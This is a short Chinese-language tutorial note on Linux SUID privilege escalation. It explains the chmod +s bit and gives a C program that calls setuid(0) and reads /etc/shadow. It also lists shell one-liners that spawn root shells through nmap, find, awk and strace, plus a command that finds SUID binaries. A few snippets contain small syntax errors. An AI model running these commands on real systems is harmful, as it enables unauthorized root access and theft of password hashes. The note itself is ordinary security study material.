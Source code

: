 ## 基本原理
chmod命令可以改变文件或者路径的一些权限属性。在chmod的众多参数中，有一个s参数引发了一个重大的问题。s参数的含义是允许程序临时以所有者权限运行。其使用命令如下：
```shell
#chmod +s targetfile 
chmod +s ./exp
```
## 原理验证
编写如下代码 persist.c
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int main(){
    setuid(0);
    system("cat /etc/shadow")
    return 0;
}
```
在root权限下编译
```shell
gcc persist.c -o persist
```
在普通用户权限下执行

![image.png](./Linux SUID 提权原理.assets/2023_05_19_10_24_08_J7RrlGfM.png)

在root用户下添加s权限，并在普通用户下执行

![image.png](./Linux SUID 提权原理.assets/2023_05_19_10_24_08_bRaiAkpS.png)

## 实战利用
可常用命令如下
```shell
nmap --interactive \ !sh
find . -type f -exec /bin/bash ;
awk 'BEGIN {system("/bin/bash")}'
strace -o/dev/null /bin/bash
```
寻找本机器环境下的s属性程序

```shell
find / -perm -u=s -type f 2>/dev/null
```
![image.png](./Linux SUID 提权原理.assets/2023_05_19_10_24_09_xKvPCB85.png)

使用find提权

![image.png](./Linux SUID 提权原理.assets/2023_05_19_10_24_10_fkYQMetW.png)



## 问题思考
在这里很疑惑两点
### bash shell 不是以root启动
find 提权使用bash shell 命令是以root 启动，但是给的bash shell 启动权限是低权限用户
![image.png](./Linux SUID 提权原理.assets/2023_05_19_10_24_11_mR2KaCvU.png)
### 使用root启动python，但是用户还是低权限用户
![image.png](./Linux SUID 提权原理.assets/2023_05_19_10_24_13_OkA8tgnI.png)

![image.png](./Linux SUID 提权原理.assets/2023_05_19_10_24_14_AhTgPj5y.png)

